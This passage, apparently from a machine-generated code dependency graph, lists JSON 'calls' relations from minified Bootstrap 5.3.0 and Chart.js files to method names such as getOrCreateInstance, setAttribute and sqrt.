"static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disposePopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isWithContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getContentForTemplate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resolvePossibleFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeTargetsAndObservables"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableSmoothScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getNewObserver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableSmoothScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "scrollTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getNewObserver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_observerCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearActiveClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeTargetsAndObservables"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearActiveClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_activateParents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_activateParents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearActiveClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setInitialAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getActiveElem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_toggleDropDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_toggleDropDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_keydown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getActiveElem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setInitialAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setAttributeIfNotExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setInitialAttributesOnChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setInitialAttributesOnChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getInnerElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_elemIsActive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOuterElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setAttributeIfNotExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setAttributeIfNotExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setInitialAttributesOnTargetPanel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setInitialAttributesOnTargetPanel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setAttributeIfNotExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setAttributeIfNotExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_toggleDropDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOuterElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setAttributeIfNotExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_elemIsActive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getInnerElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "matches"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOuterElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeScheduleHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeScheduleHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_onInteraction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeScheduleHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "endsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "endsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "endsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": 